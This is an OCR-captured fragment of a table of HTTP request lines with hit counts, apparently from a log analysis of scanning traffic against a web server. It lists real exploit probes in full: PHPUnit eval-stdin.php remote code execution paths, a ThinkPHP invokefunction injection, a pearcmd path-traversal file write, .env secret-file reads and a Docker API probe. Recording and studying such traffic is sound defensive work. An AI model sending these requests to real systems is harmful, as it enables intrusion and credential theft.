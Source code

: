 |  91 |                     2 | GET /containers/json HTTP/1.1                                                                                                                                                                                                                                                                                                                                 |
|  92 |                     2 | \x05\x01\x00                                                                                                                                                                                                                                                                                                                                                  |
|  93 |                     2 | GET /apps/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                         |
|  94 |                     2 | GET /public/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                       |
|  95 |                     2 | GET /panel/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                        |
|  96 |                     2 | GET /index.php?lang=../../../../../../../../tmp/index1 HTTP/1.1                                                                                                                                                                                                                                                                                               |
|  97 |                     2 | GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\x22hi\x22));?>+/tmp/index1.php HTTP/1.1                                                                                                                                                                                                                   |
|  98 |                     2 | GET /public/index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                             |
|  99 |                     2 | GET /index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                    |
| 100 |                     2 | GET /app/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                          |
| 101 |                     2 | GET /pfbe/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                       |
| 102 |                     2 | GET /skin/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                       |
| 103 |                     2 | GET /hash/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                       |
| 104 |                     2 | GET /blog/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                         |
| 105 |                     2 | GET /workspace/drupal/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                             |